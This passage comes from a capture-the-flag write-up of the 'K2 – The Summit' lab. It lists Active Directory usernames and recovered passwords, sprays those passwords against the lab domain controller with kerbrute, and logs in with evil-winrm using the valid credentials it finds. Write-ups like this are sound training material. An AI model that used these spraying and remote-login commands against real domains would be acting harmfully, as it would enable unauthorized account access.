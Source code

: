 The final machine is another Domain Controller with the name of `K2RootDC.k2.thm`.

## What is the user flag?

### Enumeration

We update our list before starting the AD enumeration.

**Possible AD usernames**

```
j.bold
j.smith
r.bud
administrator
```

**Passwords Found**

```
Pwd@9tLNrC3!
RdzQ7MSKt)fNaz3!
vRMkaVgdfxhW!8
#8rockyou
vz0q$i8b4c
```
Let's use `Kerbrute` to find the valid usernames first.

![K2-The Summit AD enumeration](/images/THM-K2/valid_users_k2S.png)

Once again we spray our passwords against the valid users.

```
kerbrute bruteuser --dc K2RootDC.k2.thm -d k2.thm potential_pwds.txt j.smith

kerbrute bruteuser --dc K2RootDC.k2.thm -d k2.thm potential_pwds.txt administrator
```

![JSMITH valid credentials](/images/THM-K2/JSMITH_valid_creds.png)

We find the valid credentials: `j.smith:vz0q$i8b4c`. (This is the admin password from the Middle Camp machine).

> The second command does not find any valid passwords.

### Initial Foothold (shell as j.smith)

We login with evil-winrm as `j.smith` but no user flag yet. None of the different directories for this user have anything interesting.

```
evil-winrm -i k2.thm -u j.smith -p "vz0q$i8b4c"
```

![JSMITH login](/images/THM-K2/k2_Summit_JSMITH_login.png)
